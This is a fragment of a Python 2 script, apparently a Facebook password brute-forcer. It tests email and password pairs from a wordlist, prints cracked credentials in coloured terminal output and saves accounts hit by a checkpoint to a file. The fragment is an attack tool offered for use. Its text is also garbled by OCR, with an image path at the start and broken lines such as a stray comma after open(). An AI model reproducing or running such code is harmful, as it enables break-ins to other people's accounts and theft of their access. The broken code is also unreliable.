                         dapat.close()
                        print '\n\033[1;97m[+] \033[1;97mFounded.'
                        print 52 * '\033[1;97m\xe2\x95\x90'
                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email
                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw
                        keluar()
                    else:
                        if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('Brutecekpoint.txt', 'w'),
                            ceks.write(email + ' | ' + pw + '\n')
                            ceks.close()
                            print '\n\033[1;97m[+] \033[1;97mFounded.'
                            print  "\033[1;36;40m ●════════════════════════◄►════════════════════════●"
                            print '\033[1;97m[!] \033[1;97mAccount Maybe Checkpoint'
                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email
                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw
                            keluar()
                except requests.exceptions.ConnectionError:
                    print '\033[1;97m[!] Connection Error'
                    time.sleep(1)

        except IOError:
            print '\033[1;97m[!] File not found...'
            print """\n\033[1;97m[!] \033[1;97mLooks like you don't have a wordlist"""
            super()

if __name__ == '__main__':
	login()
